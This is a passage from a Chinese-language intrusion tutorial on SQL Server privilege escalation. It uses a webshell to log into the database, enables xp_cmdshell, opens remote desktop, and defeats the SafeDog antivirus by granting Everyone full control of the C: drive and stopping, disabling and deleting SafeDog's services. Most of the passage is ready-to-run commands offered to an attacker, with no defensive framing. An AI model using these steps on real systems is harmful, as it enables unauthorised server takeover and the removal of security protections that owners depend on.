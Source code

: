 **2.2 禁止外链**  
如果目标数据库没有开外链，我们无法从远程登录数据。则需要利用一些大马进行提权

1\. 拿到账号密码，在大马上登录数据库

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbiaY7hWWXFuN62eMa5tf0TjF4WRCNOHCR5jHLcQDX09ic1sl0PWTCF0x83ia1kTwzGB1pWRDdP2l2dw/640?wx_fmt=png) 2. 开启 cmd\_shell  

```
EXEC sp\_configure 'show advanced options', 1;RECONFIGURE;EXEC sp\_configure 'xp\_cmdshell', 1;RECONFIGURE; 
#该语句适用于sql server 2005
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbiaY7hWWXFuN62eMa5tf0TjRouqS2CvmjQPp0GibD0s3QSuicFXSO8D3lhglG4PF7jRqySE9wnw9ic0w/640?wx_fmt=png)

3\. 命令执行

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbiaY7hWWXFuN62eMa5tf0Tjh2o7KnpXpRhD4OZvRlTCnVK230mboN90wKQm1UmyBbpMHSmic3yWD7g/640?wx_fmt=png)

4\. 开启 3389，远程登录

**2.3 过杀软**

以安全狗为例，利用 cmd\_shell 提权时安全狗不拦截创建账号操作，但是会拦截添加到管理员组的操作。可以将创建的用户添加到远程桌面组 (remote desktop users)，但是登陆进去了是普通用户，权限很低。这时可以对文件进行降权，降权之后可对系统盘进行操作：

1\. 降权

```
#将C盘设置为完全控制
cacls c:/e /t /g everyone:F
```

```
#system权限停用安全狗服务：
net stop "safedog guard center" /y
net stop "safedog update center" /y
net stop "safedogguardcenter" /y
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbiaY7hWWXFuN62eMa5tf0TjnvicUoREuz2CUrxhTk5n2ZcZf9ia36ShxYzs037rx9ibFsSJA5CPjhLRQ/640?wx_fmt=png)

2\. 杀狗

```
#system权限删除安全狗服务：
sc stop "SafeDogGuardCenter"
sc config "SafeDogGuardCenter" start=disabled
sc delete "Safedogguardcenter"

sc stop "SafeDogupdateCenter"
sc config "SafeDogUpdateCenter" start=disabled
sc delete "SafedogUpdatecenter"

sc stop "SafeDogCloudHeler"
sc config "SafeDogCloudHeler" start=disabled
sc delete "SafeDogCloudHeler"
#重启服务器即可kill安全狗。
```
